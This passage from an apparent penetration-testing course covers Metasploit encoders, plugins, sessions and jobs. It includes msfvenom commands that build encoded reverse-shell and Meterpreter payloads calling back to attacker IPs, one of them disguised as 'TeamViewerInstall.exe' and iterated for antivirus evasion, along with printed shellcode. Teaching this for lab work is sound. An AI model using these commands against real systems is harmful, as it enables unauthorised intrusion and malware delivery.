They are also needed to remove hexadecimal opcodes known as `bad characters` from the payload. Not only that but encoding the payload in different formats could help with the AV detection as mentioned above. However, the use of encoders strictly for AV evasion has diminished over time, as IPS/IDS manufacturers have improved how their protection software deals with signatures in malware and viruses.

Shikata Ga Nai (`SGN`) was one of the most utilized encoding schemes back in the day because it was very hard to detect payloads encoded through its mechanism. However nowadays, modern detection methods have caught up, and these encoded payloads are far from being universally undetectable anymore. The name (`仕方がない`) means `It cannot be helped` or `Nothing can be done about it`, and rightfully so if we were reading this a few years ago. However, there are other methodologies we will explore to evade protection systems. [This article from FireEye](https://www.fireeye.com/blog/threat-research/2019/10/shikata-ga-nai-encoder-still-going-strong.html) details the why and the how of Shikata Ga Nai's previous rule over the other encoders.

***

### Selecting an Encoder

Before 2015, the Metasploit Framework had different submodules that took care of payloads and encoders. They were packed separately from the msfconsole script and were called `msfpayload` and `msfencode`. These two tools are located in `/usr/share/framework2/`.

If we wanted to create our custom payload, we could do so through `msfpayload`, but we would have to encode it according to the target OS architecture using `msfencode` afterward. A pipe would take the output from one command and feed it into the next, which would generate an encoded payload, ready to be sent and run on the target machine.

Encoders

```shell-session
$ msfpayload windows/shell_reverse_tcp LHOST=127.0.0.1 LPORT=4444 R | msfencode -b '\x00' -f perl -e x86/shikata_ga_nai

[*] x86/shikata_ga_nai succeeded with size 1636 (iteration=1)

my $buf = 
"\xbe\x7b\xe6\xcd\x7c\xd9\xf6\xd9\x74\x24\xf4\x58\x2b\xc9" .
"\x66\xb9\x92\x01\x31\x70\x17\x83\xc0\x04\x03\x70\x13\xe2" .
"\x8e\xc9\xe7\x76\x50\x3c\xd8\xf1\xf9\x2e\x7c\x91\x8e\xdd" .
"\x53\x1e\x18\x47\xc0\x8c\x87\xf5\x7d\x3b\x52\x88\x0e\xa6" .
"\xc3\x18\x92\x58\xdb\xcd\x74\xaa\x2a\x3a\x55\xae\x35\x36" .
"\xf0\x5d\xcf\x96\xd0\x81\xa7\xa2\x50\xb2\x0d\x64\xb6\x45" .
"\x06\x0d\xe6\xc4\x8d\x85\x97\x65\x3d\x0a\x37\xe3\xc9\xfc" .
"\xa4\x9c\x5c\x0b\x0b\x49\xbe\x5d\x0e\xdf\xfc\x2e\xc3\x9a" .
"\x3d\xd7\x82\x48\x4e\x72\x69\xb1\xfc\x34\x3e\xe2\xa8\xf9" .
"\xf1\x36\x67\x2c\xc2\x18\xb7\x1e\x13\x49\x97\x12\x03\xde" .
"\x85\xfe\x9e\xd4\x1d\xcb\xd4\x38\x7d\x39\x35\x6b\x5d\x6f" .
"\x50\x1d\xf8\xfd\xe9\x84\x41\x6d\x60\x29\x20\x12\x08\xe7" .
"\xcf\xa0\x82\x6e\x6a\x3a\x5e\x44\x58\x9c\xf2\xc3\xd6\xb9" .

<SNIP>
```

After 2015, updates to these scripts have combined them within the `msfvenom` tool, which takes care of payload generation and Encoding. We will be talking about `msfvenom` in detail later on. Below is an example of what payload generation would look like with today's `msfvenom`:

**Generating Payload - Without Encoding**

Encoders

```shell-session
$ msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -b "\x00" -f perl

Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 381 (iteration=0)
x86/shikata_ga_nai chosen with final size 381
Payload size: 381 bytes
Final size of perl file: 1674 bytes
my $buf = 
"\xda\xc1\xba\x37\xc7\xcb\x5e\xd9\x74\x24\xf4\x5b\x2b\xc9" .
"\xb1\x59\x83\xeb\xfc\x31\x53\x15\x03\x53\x15\xd5\x32\x37" .
"\xb6\x96\xbd\xc8\x47\xc8\x8c\x1a\x23\x83\xbd\xaa\x27\xc1" .
"\x4d\x42\xd2\x6e\x1f\x40\x2c\x8f\x2b\x1a\x66\x60\x9b\x91" .
"\x50\x4f\x23\x89\xa1\xce\xdf\xd0\xf5\x30\xe1\x1a\x08\x31" .

<SNIP>
```

We should now look at the first line of the `$buf` and see how it changes when applying an encoder like `shikata_ga_nai`.

**Generating Payload - With Encoding**

Encoders

```shell-session
$ msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -b "\x00" -f perl -e x86/shikata_ga_nai

Found 1 compatible encoders
Attempting to encode payload with 3 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 326 (iteration=0)
x86/shikata_ga_nai succeeded with size 353 (iteration=1)
x86/shikata_ga_nai succeeded with size 380 (iteration=2)
x86/shikata_ga_nai chosen with final size 380
Payload size: 380 bytes
buf = ""
buf += "\xbb\x78\xd0\x11\xe9\xda\xd8\xd9\x74\x24\xf4\x58\x31"
buf += "\xc9\xb1\x59\x31\x58\x13\x83\xc0\x04\x03\x58\x77\x32"
buf += "\xe4\x53\x15\x11\xea\xff\xc0\x91\x2c\x8b\xd6\xe9\x94"
buf += "\x47\xdf\xa3\x79\x2b\x1c\xc7\x4c\x78\xb2\xcb\xfd\x6e"
buf += "\xc2\x9d\x53\x59\xa6\x37\xc3\x57\x11\xc8\x77\x77\x9e"

<SNIP>
```

**Shikata Ga Nai Encoding**

&#x20;

Source: https://hatching.io/blog/metasploit-payloads2/

If we want to look at the functioning of the `shikata_ga_nai` encoder, we can look at an excellent post [here](https://hatching.io/blog/metasploit-payloads2/).

Suppose we want to select an Encoder for an `existing payload`. Then, we can use the `show encoders` command within the `msfconsole` to see which encoders are available for our current `Exploit module + Payload` combination.

Encoders

```shell-session
msf6 exploit(windows/smb/ms17_010_eternalblue) > set payload 15

payload => windows/x64/meterpreter/reverse_tcp


msf6 exploit(windows/smb/ms17_010_eternalblue) > show encoders

Compatible Encoders
===================

   #  Name              Disclosure Date  Rank    Check  Description
   -  ----              ---------------  ----    -----  -----------
   0  generic/eicar                      manual  No     The EICAR Encoder
   1  generic/none                       manual  No     The "none" Encoder
   2  x64/xor                            manual  No     XOR Encoder
   3  x64/xor_dynamic                    manual  No     Dynamic key XOR Encoder
   4  x64/zutto_dekiru                   manual  No     Zutto Dekiru
```

In the previous example, we only see a few encoders fit for x64 systems. Like the available payloads, these are automatically filtered according to the Exploit module only to display the compatible ones. For example, let us try the `MS09-050 Microsoft SRV2.SYS SMB Negotiate ProcessID Function Table Dereference Exploit`.

Encoders

```shell-session
msf6 exploit(ms09_050_smb2_negotiate_func_index) > show encoders

Compatible Encoders
===================

   Name                    Disclosure Date  Rank       Description
   ----                    ---------------  ----       -----------
   generic/none                             normal     The "none" Encoder
   x86/alpha_mixed                          low        Alpha2 Alphanumeric Mixedcase Encoder
   x86/alpha_upper                          low        Alpha2 Alphanumeric Uppercase Encoder
   x86/avoid_utf8_tolower                   manual     Avoid UTF8/tolower
   x86/call4_dword_xor                      normal     Call+4 Dword XOR Encoder
   x86/context_cpuid                        manual     CPUID-based Context Keyed Payload Encoder
   x86/context_stat                         manual     stat(2)-based Context Keyed Payload Encoder
   x86/context_time                         manual     time(2)-based Context Keyed Payload Encoder
   x86/countdown                            normal     Single-byte XOR Countdown Encoder
   x86/fnstenv_mov                          normal     Variable-length Fnstenv/mov Dword XOR Encoder
   x86/jmp_call_additive                    normal     Jump/Call XOR Additive Feedback Encoder
   x86/nonalpha                             low        Non-Alpha Encoder
   x86/nonupper                             low        Non-Upper Encoder
   x86/shikata_ga_nai                       excellent  Polymorphic XOR Additive Feedback Encoder
   x86/single_static_bit                    manual     Single Static Bit
   x86/unicode_mixed                        manual     Alpha2 Alphanumeric Unicode Mixedcase Encoder
   x86/unicode_upper                        manual     Alpha2 Alphanumeric Unicode Uppercase Encoder
```

Take the above example just as that—a hypothetical example. If we were to encode an executable payload only once with SGN, it would most likely be detected by most antiviruses today. Let's delve into that for a moment. Picking up `msfvenom`, the subscript of the Framework that deals with payload generation and Encoding schemes, we have the following input:

Encoders

```shell-session
$ msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=8080 -e x86/shikata_ga_nai -f exe -o ./TeamViewerInstall.exe

Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 368 (iteration=0)
x86/shikata_ga_nai chosen with final size 368
Payload size: 368 bytes
Final size of exe file: 73802 bytes
Saved as: TeamViewerInstall.exe
```

This will generate a payload with the `exe` format, called TeamViewerInstall.exe, which is meant to work on x86 architecture processors for the Windows platform, with a hidden Meterpreter reverse\_tcp shell payload, encoded once with the Shikata Ga Nai scheme. Let us take the result and upload it to VirusTotal.


One better option would be to try running it through multiple iterations of the same Encoding scheme:

Encoders

```shell-session
$ msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=8080 -e x86/shikata_ga_nai -f exe -i 10 -o /root/Desktop/TeamViewerInstall.exe

Found 1 compatible encoders
Attempting to encode payload with 10 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 368 (iteration=0)
x86/shikata_ga_nai succeeded with size 395 (iteration=1)
x86/shikata_ga_nai succeeded with size 422 (iteration=2)
x86/shikata_ga_nai succeeded with size 449 (iteration=3)
x86/shikata_ga_nai succeeded with size 476 (iteration=4)
x86/shikata_ga_nai succeeded with size 503 (iteration=5)
x86/shikata_ga_nai succeeded with size 530 (iteration=6)
x86/shikata_ga_nai succeeded with size 557 (iteration=7)
x86/shikata_ga_nai succeeded with size 584 (iteration=8)
x86/shikata_ga_nai succeeded with size 611 (iteration=9)
x86/shikata_ga_nai chosen with final size 611
Payload size: 611 bytes
Final size of exe file: 73802 bytes
Error: Permission denied @ rb_sysopen - /root/Desktop/TeamViewerInstall.exe
```


As we can see, it is still not enough for AV evasion. There is a high number of products that still detect the payload. Alternatively, Metasploit offers a tool called `msf-virustotal` that we can use with an API key to analyze our payloads. However, this requires free registration on VirusTotal.

**MSF - VirusTotal**

Encoders

```shell-session
$ msf-virustotal -k <API key> -f TeamViewerInstall.exe

[*] Using API key: <API key>
[*] Please wait while I upload TeamViewerInstall.exe...
[*] VirusTotal: Scan request successfully queued, come back later for the report
[*] Sample MD5 hash    : 4f54cc46e2f55be168cc6114b74a3130
[*] Sample SHA1 hash   : 53fcb4ed92cf40247782de41877b178ef2a9c5a9
[*] Sample SHA256 hash : 66894cbecf2d9a31220ef811a2ba65c06fdfecddbc729d006fdab10e43368da8
[*] Analysis link: https://www.virustotal.com/gui/file/<SNIP>/detection/f-<SNIP>-1651750343
[*] Requesting the report...
[*] Received code -2. Waiting for another 60 seconds...
[*] Received code -2. Waiting for another 60 seconds...
[*] Received code -2. Waiting for another 60 seconds...
[*] Received code -2. Waiting for another 60 seconds...
[*] Received code -2. Waiting for another 60 seconds...
[*] Received code -2. Waiting for another 60 seconds...
[*] Analysis Report: TeamViewerInstall.exe (51 / 68): 66894cbecf2d9a31220ef811a2ba65c06fdfecddbc729d006fdab10e43368da8
==================================================================================================================

 Antivirus             Detected  Version                                                         Result                                                     Update
 ---------             --------  -------                                                         ------                                                     ------
 ALYac                 true      1.1.3.1                                                         Trojan.CryptZ.Gen                                          20220505
 APEX                  true      6.288                                                           Malicious                                                  20220504
 AVG                   true      21.1.5827.0                                                     Win32:SwPatch [Wrm]                                        20220505
 Acronis               true      1.2.0.108                                                       suspicious                                                 20220426
 Ad-Aware              true      3.0.21.193                                                      Trojan.CryptZ.Gen                                          20220505
 AhnLab-V3             true      3.21.3.10230                                                    Trojan/Win32.Shell.R1283                                   20220505
 Alibaba               false     0.3.0.5                                                                                                                    20190527
 Antiy-AVL             false     3.0                                                                                                                        20220505
 Arcabit               true      1.0.0.889                                                       Trojan.CryptZ.Gen                                          20220505
 Avast                 true      21.1.5827.0                                                     Win32:SwPatch [Wrm]                                        20220505
 Avira                 true      8.3.3.14                                                        TR/Patched.Gen2                                            20220505
 Baidu                 false     1.0.0.2                                                                                                                    20190318
 BitDefender           true      7.2                                                             Trojan.CryptZ.Gen                                          20220505
 BitDefenderTheta      true      7.2.37796.0                                                     Gen:NN.ZexaF.34638.eq1@aC@Q!ici                            20220428
 Bkav                  true      1.3.0.9899                                                      W32.FamVT.RorenNHc.Trojan                                  20220505
 CAT-QuickHeal         true      14.00                                                           Trojan.Swrort.A                                            20220505
 CMC                   false     2.10.2019.1                                                                                                                20211026
 ClamAV                true      0.105.0.0                                                       Win.Trojan.MSShellcode-6360728-0                           20220505
 Comodo                true      34592                                                           TrojWare.Win32.Rozena.A@4jwdqr                             20220505
 CrowdStrike           true      1.0                                                             win/malicious_confidence_100% (D)                          20220418
 Cylance               true      2.3.1.101                                                       Unsafe                                                     20220505
 Cynet                 true      4.0.0.27                                                        Malicious (score: 100)                                     20220505
 Cyren                 true      6.5.1.2                                                         W32/Swrort.A.gen!Eldorado                                  20220505
 DrWeb                 true      7.0.56.4040                                                     Trojan.Swrort.1                                            20220505
 ESET-NOD32            true      25218                                                           a variant of Win32/Rozena.AA                               20220505
 Elastic               true      4.0.36                                                          malicious (high confidence)                                20220503
 Emsisoft              true      2021.5.0.7597                                                   Trojan.CryptZ.Gen (B)                                      20220505
 F-Secure              false     18.10.978-beta,1651672875v,1651675347h,1651717942c,1650632236t                                                             20220505
 FireEye               true      35.24.1.0                                                       Generic.mg.4f54cc46e2f55be1                                20220505
 Fortinet              true      6.2.142.0                                                       MalwThreat!0971IV                                          20220505
 GData                 true      A:25.32960B:27.27244                                            Trojan.CryptZ.Gen                                          20220505
 Gridinsoft            true      1.0.77.174                                                      Trojan.Win32.Swrort.zv!s2                                  20220505
 Ikarus                true      6.0.24.0                                                        Trojan.Win32.Swrort                                        20220505
 Jiangmin              false     16.0.100                                                                                                                   20220504
 K7AntiVirus           true      12.10.42191                                                     Trojan ( 001172b51 )                                       20220505
 K7GW                  true      12.10.42191                                                     Trojan ( 001172b51 )                                       20220505
 Kaspersky             true      21.0.1.45                                                       HEUR:Trojan.Win32.Generic                                  20220505
 Kingsoft              false     2017.9.26.565                                                                                                              20220505
 Lionic                false     7.5                                                                                                                        20220505
 MAX                   true      2019.9.16.1                                                     malware (ai score=89)                                      20220505
 Malwarebytes          true      4.2.2.27                                                        Trojan.Rozena                                              20220505
 MaxSecure             true      1.0.0.1                                                         Trojan.Malware.300983.susgen                               20220505
 McAfee                true      6.0.6.653                                                       Swrort.i                                                   20220505
 McAfee-GW-Edition     true      v2019.1.2+3728                                                  BehavesLike.Win32.Swrort.lh                                20220505
 MicroWorld-eScan      true      14.0.409.0                                                      Trojan.CryptZ.Gen                                          20220505
 Microsoft             true      1.1.19200.5                                                     Trojan:Win32/Meterpreter.A                                 20220505
 NANO-Antivirus        true      1.0.146.25588                                                   Virus.Win32.Gen-Crypt.ccnc                                 20220505
 Paloalto              false     0.9.0.1003                                                                                                                 20220505
 Panda                 false     4.6.4.2                                                                                                                    20220504
 Rising                true      25.0.0.27                                                       Trojan.Generic@AI.100 (RDMK:cmRtazqDtX58xtB5RYP2bMLR5Bv1)  20220505
 SUPERAntiSpyware      true      5.6.0.1032                                                      Trojan.Backdoor-Shell                                      20220430
 Sangfor               true      2.14.0.0                                                        Trojan.Win32.Save.a                                        20220415
 SentinelOne           true      22.2.1.2                                                        Static AI - Malicious PE                                   20220330
 Sophos                true      1.4.1.0                                                         ML/PE-A + Mal/EncPk-ACE                                    20220505
 Symantec              true      1.17.0.0                                                        Packed.Generic.347                                         20220505
 TACHYON               false     2022-05-05.02                                                                                                              20220505
 Tencent               true      1.0.0.1                                                         Trojan.Win32.Cryptz.za                                     20220505
 TrendMicro            true      11.0.0.1006                                                     BKDR_SWRORT.SM                                             20220505
 TrendMicro-HouseCall  true      10.0.0.1040                                                     BKDR_SWRORT.SM                                             20220505
 VBA32                 false     5.0.0                                                                                                                      20220505
 ViRobot               true      2014.3.20.0                                                     Trojan.Win32.Elzob.Gen                                     20220504
 VirIT                 false     9.5.188                                                                                                                    20220504
 Webroot               false     1.0.0.403                                                                                                                  20220505
 Yandex                true      5.5.2.24                                                        Trojan.Rosena.Gen.1                                        20220428
 Zillya                false     2.0.0.4625                                                                                                                 20220505
 ZoneAlarm             true      1.0                                                             HEUR:Trojan.Win32.Generic                                  20220505
 Zoner                 false     2.2.2.0                                                                                                                    20220504
 tehtris               false     v0.1.2                                                                                                                     20220505
```

As expected, most anti-virus products that we will encounter in the wild would still detect this payload so we would have to use other methods for AV evasion that are outside the scope of this module.


## Plugins

***

Plugins are readily available software that has already been released by third parties and have given approval to the creators of Metasploit to integrate their software inside the framework. These can represent commercial products that have a `Community Edition` for free use but with limited functionality, or they can be individual projects developed by individual people.

The use of plugins makes a pentester's life even easier, bringing the functionality of well-known software into the `msfconsole` or Metasploit Pro environments. Whereas before, we needed to cycle between different software to import and export results, setting options and parameters over and over again, now, with the use of plugins, everything is automatically documented by msfconsole into the database we are using and hosts, services and vulnerabilities are made available at-a-glance for the user. [Plugins](https://www.rubydoc.info/github/rapid7/metasploit-framework/Msf/Plugin) work directly with the API and can be used to manipulate the entire framework. They can be useful for automating repetitive tasks, adding new commands to the `msfconsole`, and extending the already powerful framework.

***

### Using Plugins

To start using a plugin, we will need to ensure it is installed in the correct directory on our machine. Navigating to `/usr/share/metasploit-framework/plugins`, which is the default directory for every new installation of `msfconsole`, should show us which plugins we have to our availability:

Plugins

```shell-session
harshitp0tter@htb[/htb]$ ls /usr/share/metasploit-framework/plugins

aggregator.rb      beholder.rb        event_tester.rb  komand.rb     msfd.rb    nexpose.rb   request.rb  session_notifier.rb  sounds.rb  token_adduser.rb  wmap.rb
alias.rb           db_credcollect.rb  ffautoregen.rb   lab.rb        msgrpc.rb  openvas.rb   rssfeed.rb  session_tagger.rb    sqlmap.rb  token_hunter.rb
auto_add_route.rb  db_tracker.rb      ips_filter.rb    libnotify.rb  nessus.rb  pcap_log.rb  sample.rb   socket_logger.rb     thread.rb  wiki.rb
```

If the plugin is found here, we can fire it up inside `msfconsole` and will be met with the greeting output for that specific plugin, signaling that it was successfully loaded in and is now ready to use:

**MSF - Load Nessus**

Plugins

```shell-session
msf6 > load nessus

[*] Nessus Bridge for Metasploit
[*] Type nessus_help for a command listing
[*] Successfully loaded Plugin: Nessus


msf6 > nessus_help

Command                     Help Text
-------                     ---------
Generic Commands            
-----------------           -----------------
nessus_connect              Connect to a Nessus server
nessus_logout               Logout from the Nessus server
nessus_login                Login into the connected Nessus server with a different username and 

<SNIP>

nessus_user_del             Delete a Nessus User
nessus_user_passwd          Change Nessus Users Password
                            
Policy Commands             
-----------------           -----------------
nessus_policy_list          List all polciies
nessus_policy_del           Delete a policy
```

If the plugin is not installed correctly, we will receive the following error upon trying to load it.

Plugins

```shell-session
msf6 > load Plugin_That_Does_Not_Exist

[-] Failed to load plugin from /usr/share/metasploit-framework/plugins/Plugin_That_Does_Not_Exist.rb: cannot load such file -- /usr/share/metasploit-framework/plugins/Plugin_That_Does_Not_Exist.rb
```

To start using the plugin, start issuing the commands available to us in the help menu of that specific plugin. Each cross-platform integration offers us a unique set of interactions that we can use during our assessments, so it is helpful to read up on each of these before employing them to get the most out of having them at our fingertips.

***

### Installing new Plugins

New, more popular plugins are installed with each update of the Parrot OS distro as they are pushed out towards the public by their makers, collected in the Parrot update repo. To install new custom plugins not included in new updates of the distro, we can take the .rb file provided on the maker's page and place it in the folder at `/usr/share/metasploit-framework/plugins` with the proper permissions.

For example, let us try installing [DarkOperator's Metasploit-Plugins](https://github.com/darkoperator/Metasploit-Plugins.git). Then, following the link above, we get a couple of Ruby (`.rb`) files which we can directly place in the folder mentioned above.

**Downloading MSF Plugins**

Plugins

```shell-session
harshitp0tter@htb[/htb]$ git clone https://github.com/darkoperator/Metasploit-Plugins
harshitp0tter@htb[/htb]$ ls Metasploit-Plugins

aggregator.rb      ips_filter.rb  pcap_log.rb          sqlmap.rb
alias.rb           komand.rb      pentest.rb           thread.rb
auto_add_route.rb  lab.rb         request.rb           token_adduser.rb
beholder.rb        libnotify.rb   rssfeed.rb           token_hunter.rb
db_credcollect.rb  msfd.rb        sample.rb            twitt.rb
db_tracker.rb      msgrpc.rb      session_notifier.rb  wiki.rb
event_tester.rb    nessus.rb      session_tagger.rb    wmap.rb
ffautoregen.rb     nexpose.rb     socket_logger.rb
growl.rb           openvas.rb     sounds.rb
```

Here we can take the plugin `pentest.rb` as an example and copy it to `/usr/share/metasploit-framework/plugins`.

**MSF - Copying Plugin to MSF**

Plugins

```shell-session
$ sudo cp ./Metasploit-Plugins/pentest.rb /usr/share/metasploit-framework/plugins/pentest.rb
```

Afterward, launch `msfconsole` and check the plugin's installation by running the `load` command. After the plugin has been loaded, the `help menu` at the `msfconsole` is automatically extended by additional functions.

**MSF - Load Plugin**

Plugins

```shell-session
$ msfconsole -q

msf6 > load pentest

       ___         _          _     ___ _           _
      | _ \___ _ _| |_ ___ __| |_  | _ \ |_  _ __ _(_)_ _
      |  _/ -_) ' \  _/ -_|_-<  _| |  _/ | || / _` | | ' \ 
      |_| \___|_||_\__\___/__/\__| |_| |_|\_,_\__, |_|_||_|
                                              |___/
      
Version 1.6
Pentest Plugin loaded.
by Carlos Perez (carlos_perez[at]darkoperator.com)
[*] Successfully loaded plugin: pentest


msf6 > help

Tradecraft Commands
===================

    Command          Description
    -------          -----------
    check_footprint  Checks the possible footprint of a post module on a target system.


auto_exploit Commands
=====================

    Command           Description
    -------           -----------
    show_client_side  Show matched client side exploits from data imported from vuln scanners.
    vuln_exploit      Runs exploits based on data imported from vuln scanners.


Discovery Commands
==================

    Command                 Description
    -------                 -----------
    discover_db             Run discovery modules against current hosts in the database.
    network_discover        Performs a port-scan and enumeration of services found for non pivot networks.
    pivot_network_discover  Performs enumeration of networks available to a specified Meterpreter session.
    show_session_networks   Enumerate the networks one could pivot thru Meterpreter in the active sessions.


Project Commands
================

    Command       Description
    -------       -----------
    project       Command for managing projects.


Postauto Commands
=================

    Command             Description
    -------             -----------
    app_creds           Run application password collection modules against specified sessions.
    get_lhost           List local IP addresses that can be used for LHOST.
    multi_cmd           Run shell command against several sessions
    multi_meter_cmd     Run a Meterpreter Console Command against specified sessions.
    multi_meter_cmd_rc  Run resource file with Meterpreter Console Commands against specified sessions.
    multi_post          Run a post module against specified sessions.
    multi_post_rc       Run resource file with post modules and options against specified sessions.
    sys_creds           Run system password collection modules against specified sessions.

<SNIP>
```

Many people write many different plugins for the Metasploit framework. They all have a specific purpose and can be an excellent help to save time after familiarizing ourselves with them. Check out the list of popular plugins below:

|                                                                                                                     |                                                                                                                                     |                                                                                                                 |
| ------------------------------------------------------------------------------------------------------------------- | ----------------------------------------------------------------------------------------------------------------------------------- | --------------------------------------------------------------------------------------------------------------- |
| [nMap (pre-installed)](https://nmap.org)                                                                            | [NexPose (pre-installed)](https://sectools.org/tool/nexpose/)                                                                       | [Nessus (pre-installed)](https://www.tenable.com/products/nessus)                                               |
| [Mimikatz (pre-installed V.1)](http://blog.gentilkiwi.com/mimikatz)                                                 | [Stdapi (pre-installed)](https://www.rubydoc.info/github/rapid7/metasploit-framework/Rex/Post/Meterpreter/Extensions/Stdapi/Stdapi) | [Railgun](https://github.com/rapid7/metasploit-framework/wiki/How-to-use-Railgun-for-Windows-post-exploitation) |
| [Priv](https://github.com/rapid7/metasploit-framework/blob/master/lib/rex/post/meterpreter/extensions/priv/priv.rb) | [Incognito (pre-installed)](https://www.offensive-security.com/metasploit-unleashed/fun-incognito/)                                 | [Darkoperator's](https://github.com/darkoperator/Metasploit-Plugins)                                            |

***

### Mixins

The Metasploit Framework is written in Ruby, an object-oriented programming language. This plays a big part in what makes `msfconsole` excellent to use. Mixins are one of those features that, when implemented, offer a large amount of flexibility to both the creator of the script and the user.

Mixins are classes that act as methods for use by other classes without having to be the parent class of those other classes. Thus, it would be deemed inappropriate to call it inheritance but rather inclusion. They are mainly used when we:

1. Want to provide a lot of optional features for a class.
2. Want to use one particular feature for a multitude of classes.

Most of the Ruby programming language revolves around Mixins as Modules. The concept of Mixins is implemented using the word `include`, to which we pass the name of the module as a `parameter`. We can read more about mixins [here](https://en.wikibooks.org/wiki/Metasploit/UsingMixins).

If we are just starting with Metasploit, we should not worry about the use of Mixins or their impact on our assessment. However, they are mentioned here as a note of how complex the customization of Metasploit can become.


## Sessions

***

MSFconsole can manage multiple modules at the same time. This is one of the many reasons it provides the user with so much flexibility. This is done with the use of `Sessions`, which creates dedicated control interfaces for all of your deployed modules.

Once several sessions are created, we can switch between them and link a different module to one of the backgrounded sessions to run on it or turn them into jobs. Note that once a session is placed in the background, it will continue to run, and our connection to the target host will persist. Sessions can, however, die if something goes wrong during the payload runtime, causing the communication channel to tear down.

***

### Using Sessions

While running any available exploits or auxiliary modules in msfconsole, we can background the session as long as they form a channel of communication with the target host. This can be done either by pressing the `[CTRL] + [Z]` key combination or by typing the `background` command in the case of Meterpreter stages. This will prompt us with a confirmation message. After accepting the prompt, we will be taken back to the msfconsole prompt (`msf6 >`) and will immediately be able to launch a different module.

**Listing Active Sessions**

We can use the `sessions` command to view our currently active sessions.

Sessions

```shell-session
msf6 exploit(windows/smb/psexec_psh) > sessions

Active sessions
===============

  Id  Name  Type                     Information                 Connection
  --  ----  ----                     -----------                 ----------
  1         meterpreter x86/windows  NT AUTHORITY\SYSTEM @ MS01  10.10.10.129:443 -> 10.10.10.205:50501 (10.10.10.205)
```

**Interacting with a Session**

You can use the `sessions -i [no.]` command to open up a specific session.

Sessions

```shell-session
msf6 exploit(windows/smb/psexec_psh) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > 
```

This is specifically useful when we want to run an additional module on an already exploited system with a formed, stable communication channel.

This can be done by backgrounding our current session, which is formed due to the success of the first exploit, searching for the second module we wish to run, and, if made possible by the type of module selected, selecting the session number on which the module should be run. This can be done from the second module's `show options` menu.

Usually, these modules can be found in the `post` category, referring to Post-Exploitation modules. The main archetypes of modules in this category consist of credential gatherers, local exploit suggesters, and internal network scanners.

***

### Jobs

If, for example, we are running an active exploit under a specific port and need this port for a different module, we cannot simply terminate the session using `[CTRL] + [C]`. If we did that, we would see that the port would still be in use, affecting our use of the new module. So instead, we would need to use the `jobs` command to look at the currently active tasks running in the background and terminate the old ones to free up the port.

Other types of tasks inside sessions can also be converted into jobs to run in the background seamlessly, even if the session dies or disappears.

**Viewing the Jobs Command Help Menu**

We can view the help menu for this command, like others, by typing `jobs -h`.

Sessions

```shell-session
msf6 exploit(multi/handler) > jobs -h
Usage: jobs [options]

Active job manipulation and interaction.

OPTIONS:

    -K        Terminate all running jobs.
    -P        Persist all running jobs on restart.
    -S <opt>  Row search filter.
    -h        Help banner.
    -i <opt>  Lists detailed information about a running job.
    -k <opt>  Terminate jobs by job ID and/or range.
    -l        List all running jobs.
    -p <opt>  Add persistence to job by job ID
    -v        Print more detailed info.  Use with -i and -l
```

**Viewing the Exploit Command Help Menu**

When we run an exploit, we can run it as a job by typing `exploit -j`. Per the help menu for the `exploit` command, adding `-j` to our command. Instead of just `exploit` or `run`, will "run it in the context of a job."

Sessions

```shell-session
msf6 exploit(multi/handler) > exploit -h
Usage: exploit [options]

Launches an exploitation attempt.

OPTIONS:

    -J        Force running in the foreground, even if passive.
    -e <opt>  The payload encoder to use.  If none is specified, ENCODER is used.
    -f        Force the exploit to run regardless of the value of MinimumRank.
    -h        Help banner.
    -j        Run in the context of a job.
	
<SNIP
```

**Running an Exploit as a Background Job**

Sessions

```shell-session

msf6 exploit(multi/handler) > exploit -j
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 10.10.14.34:4444
```

**Listing Running Jobs**

To list all running jobs, we can use the `jobs -l` command. To kill a specific job, look at the index no. of the job and use the `kill [index no.]` command. Use the `jobs -K` command to kill all running jobs.

Sessions

```shell-session

msf6 exploit(multi/handler) > jobs -l

Jobs
====

 Id  Name                    Payload                    Payload opts
 --  ----                    -------                    ------------
 0   Exploit: multi/handler  generic/shell_reverse_tcp  tcp://10.10.14.34:4444
```

Next up, we'll work with the extremely powerful `Meterpreter` payload.


## Firewall and IDS/IPS Evasion - msfvenom

***

To better learn how we can efficiently and quietly attack a target, we first need to understand better how that target is defended. We are introduced to two new terms:

* Endpoint protection
* Perimeter protection

***

### Endpoint Protection

`Endpoint protection` refers to any localized device or service whose sole purpose is to protect a single host on the network. The host can be a personal computer, a corporate workstation, or a server in a network's De-Militarized Zone (`DMZ`).

Endpoint protection usually comes in the form of software packs which include `Antivirus Protection`, `Antimalware Protection` (this includes bloatware, spyware, adware, scareware, ransomware), `Firewall`, and `Anti-DDOS` all in one, under the same software package. We are better familiarized with this form than the latter, as most of us are running endpoint protection software on our PCs at home or the workstations at our workplace. Avast, Nod32, Malwarebytes, and BitDefender are just some current names.

***

**Perimeter Protection**

`Perimeter protection` usually comes in physical or virtualized devices on the network perimeter edge. These `edge devices` themselves provide access `inside` of the network from the `outside`, in other terms, from `public` to `private`.

Between these two zones, on some occasions, we will also find a third one, called the De-Militarized Zone (`DMZ`), which was mentioned previously. This is a `lower-security policy level` zone than the `inside networks'` one, but with a higher `trust level` than the `outside zone`, which is the vast Internet. This is the virtual space where public-facing servers are housed, which push and pull data for public clients from the Internet but are also managed from the inside and updated with patches, information, and other data to keep the served information up to date and satisfy the customers of the servers.

***

### Security Policies

Security policies are the drive behind every well-maintained security posture of any network. They function the same way as ACL (Access Control Lists) do for anyone familiar with the Cisco CCNA educational material. They are essentially a list of `allow` and `deny` statements that dictate how traffic or files can exist within a network boundary. Multiple lists can act upon multiple network parts, allowing for flexibility within a configuration. These lists can also target different features of the network and hosts, depending on where they reside:

* Network Traffic Policies
* Application Policies
* User Access Control Policies
* File Management Policies
* DDoS Protection Policies
* Others

